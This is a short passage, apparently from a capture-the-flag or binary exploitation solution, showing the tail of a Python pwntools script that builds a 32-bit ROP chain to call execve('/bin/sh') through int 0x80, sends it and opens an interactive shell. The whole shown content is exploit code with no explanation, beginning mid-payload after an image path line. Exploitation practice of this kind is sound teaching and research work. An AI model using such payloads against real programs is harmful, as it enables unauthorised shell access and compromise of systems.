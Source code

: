 ```python
payload += p32(bss)				# ebx = '/bin/sh'
payload += p32(0)				# edx = 0
payload += p32(popecx_ret)
payload += p32(0)				# ecx = 0
payload += p32(int80)			# int 80
io.sendline(payload)
io.sendline(b'/bin/sh' + b'\x00')
io.interactive()
```

